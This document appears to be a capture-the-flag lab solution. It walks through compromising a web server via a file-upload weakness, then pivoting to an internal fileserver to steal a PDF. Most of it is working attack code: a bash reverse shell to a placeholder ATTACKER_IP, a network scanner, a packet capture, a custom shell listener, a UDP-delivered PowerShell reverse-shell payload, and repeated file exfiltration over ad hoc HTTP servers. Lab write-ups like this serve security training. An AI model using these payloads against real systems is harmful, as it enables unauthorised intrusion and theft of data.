# Oh The Legality

**Solution Steps**

# 1. Gain access to the web server

In this scenario, you need to try turning a "file upload" weakness into an interactive foothold. For this, we need to execute a callback-based shell, or reverse shell.

1. Create the python remote shell payload file with your unique IP address. In this example, we will have the file as `shell.py`:

    ```python
    import os
    os.system("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'")
    ```

1. Navigate to the `/upload` entrypoint on the site on a web browser:

    ```bash
    firefox site/upload &
    ```

    and upload the file so that the file is on the storage of the web server:

    

    

1. If you run `curl site`, you will see a secret key we will need in a later step:

    

1. In a new shell, run the listener

    ```bash
    nc -nlvp 4444
    ```

    

1. Then, in another shell, run the command to execute the remote shell and gain access to the site:

    ```bash
    curl -X POST -F "key=process_secret_984" -F "file=shell.py" http://site/admin/process
    ```

    

1. Read the token file in the `/` directory:

    

# 2. Find the machine with the PDF file and access it

Now that we have access to the `site` machine, we need to find the machine that has the PDF that we are looking for. However, the `site` machine has very few tools available for us, so we will need to create our own to scan the network. Fortunately, we can use the file upload technique to do this.


1. To figure out what the IP address of the `site` machine on the internal network is, we can run `ip a` in our remote shell:

    


1. Scan the network with a python script, since `nmap` is not on the machine. First create the file `scanner.py` (Your IPs will be unique to you):

    ```python
    import ipaddress
    import subprocess
    import platform
    from concurrent.futures import ThreadPoolExecutor

    def ping_host(ip):
        # Determine ping parameters based on OS
        param = '-n' if platform.system().lower() == 'windows' else '-c'
        timeout = '-w' if platform.system().lower() == 'windows' else '-W'
        timeout_val = '1000' if platform.system().lower() == 'windows' else '1'

        try:
            result = subprocess.run(['ping', param, '1', timeout, timeout_val, str(ip)],
                                    stdout=subprocess.DEVNULL,
                                    stderr=subprocess.DEVNULL)
            if result.returncode == 0:
                print(f"[+] Host {ip} is live")
                return str(ip)
        except Exception as e:
            pass
        return None

    def scan_network(network_cidr, max_threads=100):
        live_hosts = []
        try:
            network = ipaddress.ip_network(network_cidr, strict=False)
        except ValueError:
            print("[!] Invalid CIDR format.")
            return []

        print(f"[+] Scanning network: {network_cidr} for live hosts...")
        with ThreadPoolExecutor(max_workers=max_threads) as executor:
            futures = {executor.submit(ping_host, ip): ip for ip in network.hosts()}
            for future in futures:
                result = future.result()
                if result:
                    live_hosts.append(result)

        print(f"\n[+] Scan complete. Live hosts found: {len(live_hosts)}")
        for host in live_hosts:
            print(f" - {host}")

        return live_hosts

    if __name__ == "__main__":
        network_cidr = input("Enter network CIDR (e.g., 192.168.1.0/24): ").strip()
        scan_network(network_cidr)
    ```

1. Then upload it to the target through the web browser so you can run it with your reverse shell.

1. In our reverse shell, we can navigate to `/app/uploads/` to see our current files we have uploaded and are available to us:

    

1. Running `scanner.py` on the `site` machine, you will see there are 5 other live machines, including the docker network gateway, which we will ignore:

    

1. Running `tcpdump`, you will see traffic being sent accross the network. To save this as a file that you can send to your kali machine, run the following for a few seconds on the `site` machine. We can add `timeout` to the beginning of it so we do not have to kill our reverse shell to kill tcpdump:

    ```bash
    timeout 10s tcpdump -i eth1 -w /app/uploads/data.pcap
    ```

    then open a simple python web server to serve the file to your kali machine:

    ```bash
    cd /app/uploads
    python3 -m http.server 8000 &
    ```

    Then on your kali machine, download the file:

    ```bash
    wget site:8000/data.pcap
    ```

    Then open it and observe its contents using wireshark:

    ```bash
    wireshark data.pcap &
    ```

1. You will notice that there are UDP packets being sent by different machines on the network, all comprising of the same data, like a way to let the server that accepts these packets know that the machines are still live. To find this data, you can right-click on any of the UDP packets and navigate to `Follow > UDP Stream`

    

    The data in the packets consist of the following:

    ```text
    key ERROR404 command run count k payload packet...
    ```

    This is a key-value pair that is being sent:

    - key:ERROR404
    - command:run
    - count:k
    - shell: PowerShell

    Using this information, we can craft our own key value pair in a python script to attempt to open a reverse shell on the machine using port 5555 by sending PowerShell commands.

1. In another terminal window on the `site` machine, we need to create a listener like we would with netcat, but since this is an internal machine, the tool is not available. Instead, we can use python again to create the listener on port 5555:

    ```python
    # reverse_shell_listener.py
    import socket

    LISTEN_HOST = '0.0.0.0'
    LISTEN_PORT = 5555  # or any desired port

    def main():
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as server_socket:
            server_socket.bind((LISTEN_HOST, LISTEN_PORT))
            server_socket.listen(1)
            print(f"[LISTENING] Waiting for reverse shell on {LISTEN_HOST}:{LISTEN_PORT}")

            conn, addr = server_socket.accept()
            print(f"[CONNECTED] Connection from {addr}")

            try:
                while True:
                    command = input("$ ")
                    if command.strip() == "":
                        continue
                    conn.sendall((command + "\n").encode())
                    data = conn.recv(4096)
                    if not data:
                        print("[DISCONNECTED] Shell closed the connection.")
                        break
                    print(data.decode(errors='ignore'), end='')
            except KeyboardInterrupt:
                print("\n[INFO] Exiting listener.")
            finally:
                conn.close()

    if __name__ == "__main__":
        main()
    ```

    For the purpose of this guide, the file is named `site.py` on the `site` machine. Hence, we can upload the file to the `site` machine again and run the listener:

    ```bash
    python3 site.py
    ```

1. In another python script `send.py`, we have to send the malicious payload to tell the target to connect to the remote shell (your IP address to scan will be unique to you):


    ```python
    import socket
    import json

    TARGET_IP = "172.19.0.4"
    TARGET_PORT = 55454
    SECRET_KEY = "ERROR404"

    CALLBACK_IP = "172.19.0.6"
    CALLBACK_PORT = 5555

    BROADCAST_IP = "172.19.255.255"  # common for /16 docker networks; adjust if needed

    reverse_shell_command = (
        f"$client = New-Object System.Net.Sockets.TCPClient('{CALLBACK_IP}',{CALLBACK_PORT});"
        "$stream = $client.GetStream();"
        "[byte[]]$bytes = 0..65535|%{0};"
        "while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){"
            "$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);"
            "$sendback = (iex $data 2>&1 | Out-String );"
            "$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';"
            "$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);"
            "$stream.Write($sendbyte,0,$sendbyte.Length);"
            "$stream.Flush()"
        "}"
    )

    payload = {"Key": SECRET_KEY, "Command": reverse_shell_command}
    payload_bytes = json.dumps(payload).encode()

    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_BROADCAST, 1)

    # Bind so we can receive the reply
    sock.bind(("0.0.0.0", 0))
    local_ip, local_port = sock.getsockname()
    print(f"[*] Sender bound on {local_ip}:{local_port}")

    def send_and_wait(dest_ip: str):
        print(f"[*] Sending to {dest_ip}:{TARGET_PORT} ...")
        sock.sendto(payload_bytes, (dest_ip, TARGET_PORT))

        sock.settimeout(2.0)
        try:
            data, addr = sock.recvfrom(65535)
            print(f"[+] UDP response from {addr}:\n{data.decode(errors='ignore')}")
            return True
        except socket.timeout:
            print("[-] No UDP response (timeout).")
            return False

    # Try unicast first
    ok = send_and_wait(TARGET_IP)

    # Then try broadcast if unicast didn’t answer
    if not ok:
        send_and_wait(BROADCAST_IP)

    print("[*] If you get a reverse shell, it will connect to your listener on port 5555.")


    ```

    Then send the payload, and you will get a reverse shell in the other terminal:

    ```bash
    python3 send.py
    ```

    

    Once complete, you will get a very unstable shell to fileserver, but you can find token2 in your current directory and read it:

    

1. Now you can find the token for gaining access to the fileserver at /root, as well as the pdf file that we need.

# 3. Get the PDF and upload the value

1. Now that you have a reverse shell on the `fileserver` machine, you can see its IP address. You will find the `secret.pdf` file located at /root/.

    Using the same technique as before, we can run a simple python server at /root and exfiltrate the file twice, first from the fileserver, and then again with the kali box.

    From the `fileserver` machine, you can execute like before:

    ```bash
    cd /root
    python3 -m http.server 8080 &
    ```

    From the `site` machine, you can use `curl` to see that you have full access to the files on `fileserver`:

    ```bash
    curl fileserver:8080
    ```

    

    From here, you will see in `html` that you can navigate the file system through the web traffic.

1. To move the file from the `fileserver` to the `site` machine, you can run on the `site` machine:

    ```bash
    wget fileserver:8080/root/secret.pdf
    ```

    Then we no longer need the fileserver and need to exfiltrate it again to our kali box. 

    From the `site` machine, unsure the ptyhon http server is running:

    ```bash
    python3 -m http.server 8080
    ```

    Then from the kali box, run `wget`:

    ```bash
    wget site:8080/secret.pdf
    ```

    

1. Navigate to `http://grader` and upload the file to the web form to receive your token:"

    

    